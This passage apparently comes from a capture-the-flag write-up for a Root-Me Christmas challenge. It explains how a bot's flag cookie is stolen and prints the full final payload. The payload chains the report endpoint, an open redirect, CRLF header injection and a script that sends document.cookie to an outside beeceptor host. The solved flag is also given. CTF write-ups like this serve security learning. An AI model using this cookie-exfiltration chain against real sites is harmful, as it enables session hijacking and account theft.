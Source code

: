 The flag cookie is sent only if the hostname is 127.0.0.1 (for instance it will not work with `dyn-01.xmas.root-me.org`). The Dockerfile shows that the app is running on port 3000. We can then reference the app with URLs beginning with `http://127.0.0.1:3000`.

The final payload is:

http://dyn-01.xmas.root-me.org:27823/api/report?url=http://127.0.0.1:3000/api/redirect?url=resource://spikeroot.free.beeceptor.com%250D%250AConnection:%20close%250D%250A%250D%250A%3Cscript%3Ewindow.location=%27https://spikeroot.free.beeceptor.com/?cookie=%27%252Bdocument.cookie%3C/script%3E

and we finally receive the flag cookie on our beeceptor endpoint.

![challenge](./img/08-flag.png)

**FLAG:** `RM{Damnn_Chrome_And_Firefox_4re_S0_different}`

## Day 9 - The Christmas Thief (Forensic)

![challenge](./img/09-chall.png)
